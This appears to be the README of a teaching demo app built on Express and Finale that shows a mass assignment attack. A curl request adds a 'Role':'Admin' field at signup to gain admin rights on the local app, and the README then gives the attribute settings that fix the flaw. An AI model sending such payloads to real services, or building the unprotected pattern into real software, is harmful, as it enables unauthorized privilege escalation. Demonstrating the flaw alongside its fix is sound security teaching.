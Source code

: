 # Mass Assignment with Express and Finale

This application is a demonstration prototype just to show how to perform Mass Assignment attack.

## Setup

- Install

```
npm install
```

- Init database

```
NODE_ENV="dev" npx sequelize-cli db:migrate
```

- Run

```
NODE_ENV="dev" npm start
```

## Usage

- Signup as Visitor

```
DATA='{"Login":"hobbit","firstName":"Frodon","lastName":"Sacquet"}'
```

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data $DATA \
  http://localhost:3000/users
```

Look into the HTTP response: How to exploit Mass Assignment Attack ?

## Hack

- Signup as Admin (using Mass Assignment Attack)

```
DATA='{"Login":"pwned","firstName":"pwned","lastName":"pwned","Role":"Admin"}'
```

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data $DATA \
  http://localhost:3000/users
```

- Get all users

```
curl http://localhost:3000/users | jq
```

## Fix

Add one of the following attributes on Finale resource:

```
excludeAttributes: ['Role']
```

```
readOnlyAttributes: ['Role']
```

